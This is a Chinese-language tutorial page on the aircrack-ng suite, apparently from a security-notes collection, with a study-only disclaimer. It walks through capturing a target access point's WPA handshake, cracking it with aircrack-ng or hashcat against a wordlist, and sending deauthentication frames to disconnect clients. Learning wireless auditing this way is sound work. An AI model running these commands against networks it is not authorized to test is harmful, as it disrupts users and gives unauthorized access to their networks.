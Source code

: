 # Aircrack

<p align="center">
    <img src="../../../assets/img/logo/aircrack-ng.jpg" width="25%"></a>
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**简介**

aircrack 是一个比较出名的用于破解 WEP 和 WPA 加密的无线网络的一款工具，由 6 个不同的部分组成：
1. aircrack-ng
用于破解 WEP 以及 WPA-PSK 密钥。一旦 aircrack-ng 工具收集了足够的信息，aircrack-ng 将会分析这些数据，
并试图确定使用中的密钥。
2. airdecap-ng 解读被破解的网络数据包
3. airmon-ng 为使用整个 aircrack-ng 套件配置一个网卡
4. aireplay-ng 在无线网络中产生可能在恢复中的 WEP 密钥所需的流量
5. airodump-ng 捕获被 aircrack-ng 用于破解 WEP 密钥的 802.11 帧
6. tools 为微调提供分类工具箱

**文章**
- [记一次曲折的WIFI测试之路](https://www.secpulse.com/archives/96964.html)

---

# 例子

以无线网卡名为 wlan0 举例

```bash
airmon-ng start wlan0   # 启动网卡监听模式
airmon-ng check kill    # 关闭干扰程序

airodump-ng wlan0mon    # 开启抓包,获取附件无线网络
# BSSID(Basic Service SetIdentifier): AP 的 MAC 地址。
# PWR(Power): 信号强度。
# Beacons: AP 发出的通告编号，每个接入点（AP）在最低速率（1M）时差不多每秒会发送 10 个左右的 beacon，
# 所以它们能在很远的地方就被发现。
# #Data:当前数据传输量。
# #/s:过去 10 秒钟内每秒捕获数据分组的数量。
# CH(Channel): AP 所在的频道。
# MB: AP 的最大传输速度。MB=11 => 802.11b，MB=22 => 802.11b+， MB>22 => 802.11g。后面带.的表
# 示短封包标头，处理速度快，更利于破解。
# ENC(Encryption): 使用的加密算法体系。
# CIPHER: 检测到的加密算法。#这个和 ENC 的区别我确实不明白，有没有知道的朋友可以告诉我。
# AUTH(Authority): 认证方式。
# ESSID(The Extended Service Set Identifier): AP 的名称。

airodump-ng -c 6 --bssid E0:24:81:AF:F3:A8 -w wireless wlan0mon     # 指定特定的wifi抓握手包,出现 handshake 则抓包成功
# -c 指定信道,上面已经标记目标热点的信道(CH)
# -bssid 指定目标路由器的BSSID,就是上面标记的BSSID
# -w 指定抓取的数据包保存的目录

aircrack-ng -a2 -b E0:24:81:AF:F3:A8 -w pass.txt wireless-01.cap    # 跑包
```

**使用 hashcat 爆破(只能跑 WPA/WPA2/PSK 加密的)**

用 aircrack-ng 把 cap 转换成 hccap 类型数据包(会自动添加后缀名 .hccap)
```bash
aircrack-ng wireless-01.cap -J wireless
```

```bash
hashcat -m 2500 wireless.hccap pass.txt --force                     # 用hashcat破解WPA/PSK密码
```

若是提示"Old hccap format detected! You need to update"可以将第一步的命令改为
```bash
aircrack-ng wireless-01.cap -j wireless
```

注意如果抓不到握手包把对方踢下线,这样就会抓包成功
```bash
aireplay-ng -0 10 -a <无线路由器的MAC地址> -c <连接上的设备MAC地址> wlan0mon
# -0 冲突攻击模式，后面跟发送次数，一般使用这个模式即可。
# -a 无线网 mac 地址
# -c 连接上的客户端 mac 地址，就是那个 STATION
```

